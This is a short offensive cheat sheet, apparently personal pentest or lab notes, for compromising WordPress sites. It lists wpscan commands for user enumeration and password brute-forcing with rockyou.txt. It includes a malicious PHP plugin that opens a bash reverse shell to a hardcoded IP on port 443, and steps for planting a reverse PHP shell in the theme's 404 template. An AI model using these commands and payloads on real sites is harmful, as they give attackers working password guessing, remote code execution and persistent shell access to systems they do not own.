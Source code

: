 ### Enum
```
sudo wpscan --url url -e vp,u
sudo wpscan --url url --usernames admin --passwords rockyou.txt
```
enum users
```
sudo wpscan --url https://ip/ --enumerate u
```

### Upload Plugin to RCE
```
<?php
/**
* Author: Saeed Bala
* Plugin Name: PHP Code Plugin
* Description: Shell Through Plugins
* Version: 1.0
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.185/443 0>&1'");
?>

zip -r plug.zip index.php
```
### Update Theme File to RCE 
```
1. Location: Backend -> Theme Editor -> Theme Files -> 404 Template
2. Replace with your rev php shell
3.Access the 404 Template
http://192.168.199.55/shenzi/404.php
```
